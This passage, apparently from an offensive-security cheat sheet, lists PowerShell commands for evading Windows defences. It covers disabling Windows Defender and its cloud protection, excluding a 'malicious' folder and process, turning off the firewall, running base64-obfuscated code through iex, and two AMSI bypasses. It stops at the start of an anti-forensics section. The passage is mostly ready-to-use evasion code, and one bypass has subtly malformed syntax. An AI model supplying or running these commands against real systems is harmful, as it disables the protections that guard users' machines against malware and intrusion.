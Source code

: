 ```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1
```

**Add Exclusion to Windows Defender**&#x20;

```powershell
Add-MpPreference -ExclusionPath "C:\Path\To\Malicious\Folder"
Add-MpPreference -ExclusionProcess "malicious.exe"
```

**Disable Windows Defender's Cloud-Delivered Protection**&#x20;

```powershell
Set-MpPreference -MAPSReporting 0
Set-MpPreference -SubmitSamplesConsent 2
```

**Disable Windows Firewall**&#x20;

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

**Avoiding Windows Defender via Obfuscation**&#x20;

* Use obfuscated scripts to bypass detection (simple example):

```powershell
$code = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("JABhACA9ACAAIgBoAGUAbABsAG8AIgA=")); iex $code
```

## AMSI (Antimalware Scan Interface) Bypass&#x20;

AMSI is used by Windows Defender and other AV tools to scan PowerShell commands. Bypassing AMSI allows you to execute malicious code without scanning.

**AMSI Bypass with PowerShell**&#x20;

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```

**AMSI Bypass by Patching in Memory**&#x20;

```powershell
$amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')::GetField('amsiInitFailed','NonPublic,Static')
$amsi.SetValue($null,$true)
```

## Anti-Forensics and Data Destruction&#x20;

**Securely Deleting Files**&#x20;

*   Use `sdelete` to securely delete files:
